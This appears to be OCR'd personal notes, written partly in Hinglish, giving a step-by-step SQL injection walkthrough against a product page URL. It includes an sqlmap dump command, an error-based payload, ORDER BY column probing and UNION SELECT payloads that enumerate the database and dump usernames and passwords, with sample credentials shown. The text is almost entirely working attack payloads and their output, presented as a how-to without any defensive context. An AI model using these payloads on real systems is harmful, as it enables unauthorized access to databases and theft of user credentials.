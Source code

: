 | sqlmap -r vul_req -p uname -D acuart -T users -C uname,pass --dump | data dump |
|  |  |

---

---

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
# sql injecsion  notes

| Direct url me change. |  |
| --- | --- |
| http://example.com/product.php?id=5 | targer url |
| nahi diya rhe to find kerlo wyeback url or sqlmap ka use kerke. |  |
| step 1 :- http://example.com/product.php?id=5'  | Test for SQLi Vulnerability. |
| step 2 :- see You have an error in your SQL syntax near… means  | Site is vulnerable! |
| step 3 :- id=5 AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT((SELECT database()), 0x3a, FLOOR(RAND(0)*2)) AS x FROM information_schema.tables GROUP BY x) y) | Generate Error for Info (Error-Based SQLi) |
| step 4 :- id=5 ORDER BY 1--+
id=5 ORDER BY 2--+
id=5 ORDER BY 3--+
id=5 ORDER BY 4--+ | When error aata hai `ORDER BY 4--+`, means only **3 columns**.
 |
| step 6 :- id=-1 UNION SELECT 1,2,3--+
 | Use `UNION SELECT` to test data display |
| * ———————————-Extract Database Info———————-* |  |
| step 7 :-  id=-1 UNION SELECT 1, database(), 3--+ | Current Database  :-  shopdb |
| step 8 :- id=-1 UNION SELECT 1, user(), 3--+ | Current User :- root@localhost |
| step 9 :- id=-1 UNION SELECT 1, version(), 3--+ | DB Version :- 10.3.31-MariaDB |
| step 10 :- id=-1 UNION SELECT 1, table_name, 3 FROM information_schema.tables WHERE table_schema='shopdb'--+ | List All Tables   :-  products
                                 users |
| step 11 :- id=-1 UNION SELECT 1, column_name, 3 FROM information_schema.columns WHERE table_name='users'--+ | List All Columns in `users` :- id, username, password |
| step 12 :-  id=-1 UNION SELECT 1, username, password FROM users--+
 | Dump Users Table (Username & Password) :- admin | admin123
                    vaibhav | hello@123 |
                    
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
                    